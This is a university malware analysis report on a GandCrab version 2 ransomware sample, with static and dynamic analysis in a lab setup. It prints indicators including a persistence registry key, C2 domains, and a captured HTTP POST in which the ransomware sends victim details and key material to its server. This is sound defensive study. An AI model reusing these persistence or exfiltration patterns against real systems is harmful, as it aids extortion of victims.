





A university assignment to analyse a GandCrab ransomware sample.

## Introduction

For one of my university courses, we were assigned with doing research on a cyber security topic of our choice. I have always been fascinated by reverse engineering and malware, and this was the perfect opportunity to dive deeper. 

Which sample, among the many types and strains of malware, does one choose to investigate? With this question in mind I remembered that my parents were struck once by this particularly nasty malware called *GandCrab*. This has motivated me to further investigate this malware.

## History of GandCrab

Around the year 2017, GandCrab started infecting computers, remaining undiscovered until the end of January 2018. After the antivirus Company BitDefender discovered versions 1.0 and 1.1 of the ransomware, the authors were quick to roll out new versions, as their server was attacked and the secret keys made public. GandCrab had a very succesful ransomware campaign, with an estimated 40 percent of the market share in 2019, according to [Kaspersky Labs](https://www.kaspersky.nl/blog/gandcrab-ransomware-is-back/23944/).

 A succesful cooperation between the Romanian police, Bitdefender and Europol led to the development and public release of a decryptor for GandCrab V1. Again, the authors had to catch up and made V2, which the decryptor was not able to decrypt anymore. Version 2 of the GandCrab malware will be considered in this article.
 
 ## Lab Setup

 In order to contain potential threats, a malware analysis lab was built with [FlareVM](https://github.com/mandiant/flare-vm), a dedicated Windows 10 VM for malware analysis. In order to investigate potential network traffic from the ransomware, a [REMnux](https://remnux.org/) VM was set up to simulate network services.
 
## Static analysis

 We took a random sample after searching for GandCrab samples on [MalwareBazaar](https://bazaar.abuse.ch/), to investigate further:

| File name  | aocqhg.exe                                                       |
|------------|------------------------------------------------------------------|
| First seen | 2021-03-01 13:32:17 UTC                                          |
| SHA256     | 5d50191678dabdc76355a6ed55862d6847b63d908625a49c1750a41855811aa4 |
| File size  | 71 168 bytes                                                     |
| Mime type  | application/x-dosexec                                            |
| Packed     | No                                                               |

As can be seen from the mimetype, this is a Windows executable. This means that it contains a Portable Executable (PE) header, which contains information about the compiler versions, checksums, sections, string data, as well as any DLL's that the executable needs for proper functionality. 

Particularly interesting are the API calls that are made by the executable. Multiple calls to cryptographic functions can be observed, as well as calls for file manipulation (ReadFile, WriteFile, CreateFileW). We also see calls to InternetOpenW, InternetReadFile, HttpSendRequestW that suggest that this malware may send or receive data over the internet. Also visible is a LoadLibraryA call, which may be used to load additional libraries during runtime. 

| advapi32.dll     | wininet.dll         | crypt32.dll          | kernel32.dll   |
|------------------|---------------------|----------------------|----------------|
| CryptExportKey   | InternetCloseHandle | CryptStringToBinaryA | CreateProcessW |
| CryptGetKeyParam | HttpSendRequestW    | CryptBinaryToStringA | ReadFile       |
| CryptImportKey   | InternetConnectW    |                      | WriteFile      |
| CryptEncrypt     | HttpOpenRequestW    |                      | CreateFileW    |
| CryptDecrypt     | InternetOpenW       |                      |                |
| RegCreateKeyExW  | InternetReadFile    |                      |                |
| RegCloseKey      |                     |                      |                |
| RegQueryValueExW |                     |                      |                |

A quick search for string data in the binary reveals multiple interesting strings, but most importantly the ransomware note that is dropped on the host after infection is plainly visible:

These are the first clues as to which version of GandCrab we are dealing with, as the ransom note has changed between versions. 

## Dynamic Analysis

At the start of the investigation, the binary is being run without attaching a debugger. Using [Sysinternals Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), a close eye is kept on any processes that are being spawned, the creation of registry keys, and potential network traffic. The following registry key is created:

> HKCU\Software\Microsoft\Windows\Currentversion\RunOnce\iqggkpqyopu

Further investigation into this registry keys shows that it references the following executable file:

> Type: REG_SZ,  
> Length: 110,  
> Data: "C:\Users\IEUser\AppData\Roaming\Microsoft\umnpfp.exe"

It is most likely that this executable is run on startup as a persistence mechanism. Another file is created as well, likely a key material for encryption in later stages:

> FILE:c:\users\ieuser\appdata\roaming\microsoft\crypto\rsa\
> s-1-5-21-3461203602-4096304...\7b5ef83f033cce1d1e0d..

After these events take place, GandCrab attempts to terminate common antivirus solutions. The following list of solutions is searched for (decompiled using [Ghidra](https://ghidra-sre.org/)):

When persistence is established and anti-virus solutions are out of the way, the executable starts sending DNS requests every 2 to 3 seconds:

> nomoreransom.coin: type A, class IN  
> random.bit: type A, class IN  
> carder.bit: type A, class IN

Additionally, HTTP POST requests are observed to these domains:

> POST /curl.php?token=This%20.....
> m%20cannot%20be%20run%20in%20DOS%20mode.$   
> HTTP/1.1  
> Host: nomoreransom.coin  
> Content-Type: application/x-www-form-urlencoded  
> User-Agent: Mozilla/5.0  
> (Windows NT 6.1; WOW64)  
> AppleWebKit/537.36 (KHTML, like Gecko)  
> Chrome/55.0.2883.87 Safari/537.36  
> Content-Length: 5925  
> Cache-Control: no-cache  
> 
> data=mdU+mIEkDgfqAIOO+CErOIcj/44TH/51A4H

The base64 encoded body is encrypted and does not reveal any information. 

> action=call  
> &pc_user=IEUser  
> &pc_name=MSEDGEWIN10  
> &pc_group=WORKGROUP  
> &av=MsMpEng.exe  
> &pc_lang=en-US  
> &pc_keyb=0  
> &os_major=Windows 10 Enterprise  
> &os_bit=x64  
> &ransom_id=aaf05d4ab4a6fec6  
> &hdd=C:FIXED_85898293248/35369234432,  
> Z:REMOTE_205349208064/124264275968  
> &pub_key=BgIAAACkAABSU0ExAAgAAAEAAQCBo  
> &priv_key=BwIAAACkAABSU0EyAAgAAAEAAQCB  
> &version=2.3r